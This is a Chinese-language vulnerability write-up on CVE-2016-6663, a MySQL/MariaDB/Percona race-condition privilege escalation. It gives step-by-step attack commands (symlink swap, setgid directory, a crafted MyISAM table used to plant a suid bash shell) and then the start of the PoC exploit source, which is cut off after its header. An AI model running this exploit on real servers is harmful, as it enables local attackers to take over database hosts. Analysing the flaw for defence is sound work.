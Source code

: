 系统调用之间，产生了条件竞争漏洞。

如果攻击者删除临时表poctab1.TMD，然后通过符号链接在chmod()操作前替换/var/lib/mysql，则能够完全控制MYSQL的data目录权限。

攻击者可以预设置poctab1.MYD权限为04777(suid)，然后通过有漏洞的chmod()调用有效的复制一个bash shell来执行命令。这里会有一个问题，suid shell将只会保留攻击者的UID，而不是'mysql'用户。因此攻击者需要复制bash shell到mysql用户用户的表文件，然而mysql表文件又不具有写权限。

可以通过新建一个具有组粘帖位（group sticky bit)的目录来绕过这个限制

新建/tmp/disktable/目录，并赋予组粘帖位（group sticky bit)

```
attacker@debian:/tmp/disktable$ chmod g+s /tmp/disktable/
attacker@debian:/tmp/disktable$ ls -ld /tmp/disktable/
drwxrwsrwx 2 attacker attacker 4096 Oct 28 11:25 /tmp/disktable/
```

通过data directory参数指定存储目录为/tmp/disktable/

```
mysql&gt; CREATE TABLE poctab2 (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/disktable';
Query OK, 0 rows affected (0.00 sec)
```

再次查看/tmp/disktable/权限

```
attacker@debian:/tmp/disktable$ ls -l /tmp/disktable/
total 0
-rw-rw---- 1 mysql mysql    0 Oct 28 11:04 poctab1.MYD
-rw-rw---- 1 mysql attacker 0 Oct 28 11:34 poctab2.MYD
```

我们可以看到poctab2.MYD表已经是'mysql'权限了，但是属于'attacker'组。这样'attacker'就能够复制/bin/bash到poctab2.MYD文件了。



**漏洞验证：**

[![](https://p0.ssl.qhimg.com/t019936f1bf328f27f1.png)](https://p0.ssl.qhimg.com/t019936f1bf328f27f1.png)

[![](https://p5.ssl.qhimg.com/t017be918a9801729ce.png)](https://p5.ssl.qhimg.com/t017be918a9801729ce.png)



**POC.**





```
------------------[ mysql-privesc-race.c ]--------------------
/*
MySQL/PerconaDB/MariaDB - Privilege Escalation / Race Condition PoC Exploit
mysql-privesc-race.c (ver. 1.0)
CVE-2016-6663 / OCVE-2016-5616
Discovered/Coded by:
Dawid Golunski
dawid[at]legalhackers.com
@dawid_golunski
http://legalhackers.com
Compile:
gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
Note:
* On RedHat-based systems you might need to change /tmp to another public directory
* For testing purposes only. Do no harm.  
Full advisory URL:
http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html
*/
#include &lt;fcntl.h&gt;
#include &lt;grp.h&gt;
#include &lt;mysql.h&gt;
```